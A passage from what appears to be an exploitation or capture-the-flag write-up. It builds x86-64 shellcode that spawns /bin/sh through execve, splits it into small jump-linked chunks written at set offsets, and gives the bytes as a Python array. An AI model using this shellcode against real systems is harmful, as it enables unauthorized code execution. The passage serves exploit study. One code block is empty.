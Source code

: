 ```c 
```

This writes our shellcode in the offsets `352, 272, 160, 496, 472, 544, 408`.
A bit of hand-written assembly later, I ended up with 

```asm
   0:	48 8d 7c 24 f8       	lea    rdi,[rsp-0x8]
   5:	eb 70                	jmp    77 <shellcode+0x77>
  
   7:	66 c7 47 06 68 00    	mov    WORD PTR [rdi+0x6],0x68
   d:	eb 50                	jmp    5f <shellcode+0x5f>
  
  f:	66 c7 47 04 2f 73    	mov    WORD PTR [rdi+0x4],0x732f
  15:	eb 38                	jmp    4f <shellcode+0x4f>
  
  17:	66 c7 47 02 69 6e    	mov    WORD PTR [rdi+0x2],0x6e69
  1d:	eb 40                	jmp    5f <shellcode+0x5f>
  
  1f:	66 c7 07 2f 62       	mov    WORD PTR [rdi],0x622f
  24:	eb 18                	jmp    3e <shellcode+0x3e>

  26:	b0 3b                	mov    al,0x3b
  28:	31 f6                	xor    esi,esi
  2a:	31 d2                	xor    edx,edx
  2c:	0f 05                	syscall 
```

which is equivalent to `execve("/bin/sh", NULL, NULL)`, with the difference that it'll definitely
crash the process when it returns.

The grouped lines are the 8-byte-or-less instruction groups that can be written, and must be written
to the first 6 offsets, from lower to higher. The seventh one can be whatever garbage you want, it won't
be executed.

In python:

```python
shellcode = [
    [ 0x66, 0xc7, 0x47, 0x04, 0x2f, 0x73, 0xeb, 0x38 ],  # 352
    [ 0x66, 0xc7, 0x47, 0x06, 0x68, 0x00, 0xeb, 0x50 ],  # 272
    [ 0x48, 0x8d, 0x7c, 0x24, 0xf8, 0xeb, 0x70 ],        # 160
    [ 0xb0, 0x3b, 0x31, 0xf6, 0x31, 0xd2, 0x0f, 0x05 ],  # 496
    [ 0x66, 0xc7, 0x07, 0x2f, 0x62, 0xeb, 0x18 ],        # 472
    [ 0xcc, 0xce ],                                      # 544
    [ 0x66, 0xc7, 0x47, 0x02, 0x69, 0x6e, 0xeb, 0x40 ],  # 408
]
for line in shellcode:
    if line[-1] != 0x05:
        line[-1] -= len(line)
```

The decrement is used to adjust the jump offsets to account for the RIP advancing, as they
were compiled as if RIP were the first instruction in each block. `[ 0xcc, 0xce ]` will just become
two int3s, but it could be anything you wanted. The if is needed to not corrupt the `syscall` instruction.
